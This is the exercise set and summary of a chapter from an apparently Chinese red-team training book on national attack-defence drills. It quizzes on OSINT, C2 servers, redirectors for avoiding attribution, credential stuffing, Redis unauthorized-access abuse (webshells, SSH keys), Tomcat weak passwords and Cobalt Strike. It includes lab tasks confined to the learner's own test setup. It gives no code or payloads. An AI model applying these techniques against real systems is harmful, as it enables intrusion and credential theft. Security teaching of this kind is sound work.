## ✏️ 课后习题

### 选择题（15道）

1. 护网行动中，扮演攻击方的是？
   - A. 红队
   - B. 蓝队
   - C. 紫队
   - D. 黄队

2. 护网行动中，负责裁判和仲裁的是？
   - A. 红队
   - B. 蓝队
   - C. 紫队
   - D. 黑队

3. OSINT是什么意思？
   - A. 开源情报
   - B. 操作系统
   - C. 开放接口
   - D. 以上都不对

4. 以下哪个不是常见的Web打点方式？
   - A. SQL注入
   - B. 文件上传
   - C. 暴力破解
   - D. 域渗透

5. Redis未授权访问不能用来做什么？
   - A. 写入Webshell
   - B. 写入SSH公钥
   - C. 直接读取服务器上的任意文件
   - D. 读取Redis中存储的数据

6. 撞库攻击成功的主要原因是？
   - A. 系统有漏洞
   - B. 用户在多个系统使用相同的账号密码
   - C. 密码太简单
   - D. 没有防火墙

7. C2服务器的作用是？
   - A. 存储工具
   - B. 命令与控制，用来管理被控主机
   - C. 发送钓鱼邮件
   - D. 扫描漏洞

8. 红队基础设施的第一原则是？
   - A. 速度快
   - B. 成本低
   - C. 隐匿，不能被溯源
   - D. 功能全

9. 以下哪个不是红队的常见小组？
   - A. 情报组
   - B. Web组
   - C. 内网组
   - D. 财务组

10. 护网行动中，最重要的是什么？
    - A. 技术最牛
    - B. 工具最多
    - C. 拿到成果
    - D. 速度最快

11. 以下哪个工具不是用来做子域名收集的？
    - A. subfinder
    - B. amass
    - C. sqlmap
    - D. OneForAll

12. 以下哪个是国内最常用的网络空间搜索引擎？
    - A. Shodan
    - B. FOFA
    - C. Google
    - D. Bing

13. 红队武器库中，被称为"Web渗透必备神器"的抓包工具是？
    - A. Wireshark
    - B. Burp Suite
    - C. Fiddler
    - D. Charles

14. Cobalt Strike属于哪类工具？
    - A. 信息收集工具
    - B. Web漏洞扫描工具
    - C. 内网渗透C2框架
    - D. 密码破解工具

15. 以下哪种攻击方式成功率通常最高？
    - A. Web漏洞打点
    - B. 钓鱼攻击
    - C. 物理近源攻击
    - D. 0day漏洞攻击

### 填空题（15道）

1. 护网行动中，攻击方叫______，防守方叫______，裁判叫______。

2. OSINT的全称是______，中文意思是______。

3. 红队的基础设施中，用来控制被控主机的服务器叫______服务器，全称是______。

4. 用拿到的账号密码去尝试登录其他系统，这种攻击方式叫______。

5. 红队武器库中，常用的子域名收集工具有______、______、______等（至少写3个）。

6. 常用的Web漏洞扫描工具有______、______、______等（至少写3个）。

7. 内网渗透中，最常用的两个C2框架是______和______。

8. Redis未授权访问，如果是以root权限运行，可以通过写入______的方式拿到服务器远程登录权限。

9. Tomcat后台的常见弱口令有______、______等（至少写2个）。

10. 红队攻击的首选路径通常是______，备选路径有______、______等（至少写2个）。

11. 国内最常用的三个网络空间搜索引擎是______、______、______。

12. impacket套件中，用来远程执行命令的脚本是______，用来转储哈希的是______。

13. 域渗透中，用来可视化域关系、寻找攻击路径的神器是______。

14. 红队基础设施的五大原则是：______、______、______、______、______。

15. 证书透明度日志的英文是______，主要用来收集______信息。

### 简答题（8道）

1. 简述护网红队行动的战前准备都包括哪些内容？（至少写5项）

2. 什么是社工画像？红队为什么要做社工画像？

3. 什么是撞库攻击？如何防御撞库攻击？（至少写5种防御方法）

4. 红队的基础设施包括哪些部分？各有什么作用？

5. 为什么说"情报比技术更重要"？你怎么理解这句话？

6. Redis未授权访问有哪些利用方式？（至少写3种）

7. 红队的五个小组（情报组、Web组、内网组、支援组）各自的职责是什么？

8. 什么是重定向器？红队为什么要用重定向器？

### 实操题（5道）

1. 尝试使用子域名收集工具（如subfinder），对自己搭建的测试环境进行子域名收集，记录下你找到的子域名数量，以及用了哪些工具。
   （提示：subfinder的使用方法在第12章会详细讲，可以先去看文档）

2. 搭建一个Redis环境（Docker就能搭，很简单），尝试未授权访问攻击，看看能不能成功写入Webshell或者SSH公钥。
   （**注意：只能在自己的测试环境中做！禁止攻击他人！**）

3. 用nuclei扫描你自己搭建的测试环境，看看能发现多少漏洞，统计高危、中危、低危各有多少个。

4. 尝试给自己做一个"社工画像"，用你的名字、常用ID、邮箱去网上搜一搜，看看你在网上留下了多少痕迹。
   （提示：可以从搜索引擎、社交媒体、代码平台等角度搜）

5. 思考：如果你是一家公司的安全负责人，你会如何防御红队的情报收集？
   （提示：从公司层面和个人层面分别思考，至少写10条措施）

---

## 📝 本章小结

- 护网行动是团队作战，不是个人英雄主义，讲究专业化分工协作
- 战前准备非常重要，情报、武器、基础设施、预案都要准备好
- 情报收集是红队的第一步，也是最重要的一步，情报比技术更重要
- OSINT（开源情报）能挖到很多意想不到的信息，域名、人员、密码...
- 子域名收集有很多工具：subfinder、amass、OneForAll...（详见第12章）
- 网络空间搜索引擎：FOFA、钟馗之眼、Quake...（详见第12章）
- 红队武器库非常庞大，分信息收集、Web渗透、内网渗透、免杀、社工等几大类
- 基础设施要做好隐匿和冗余，不能被溯源，C2、重定向器、代理池...（详见第59章）
- 社工画像是红队的大杀器，了解一个人比了解一个系统更有用
- 外网打点只是第一步，最终目标是内网核心系统和域控
- 撞库攻击成功率很高，因为很多人多个系统用同一个密码
- 护网不是比谁技术牛，是比谁能最快拿到成果
- 第一章只是开胃菜，后面的章节会把每一个技术点都讲透

---

## 🔗 相关链接

- [⬅️ 上一章：---](/redteam/day001-story-开篇)
- [➡️ 下一章：---](/redteam/day003-story-护网红队行动全记录下)
- [📖 返回全书目录](/redteam/day118-toc-全书目录)
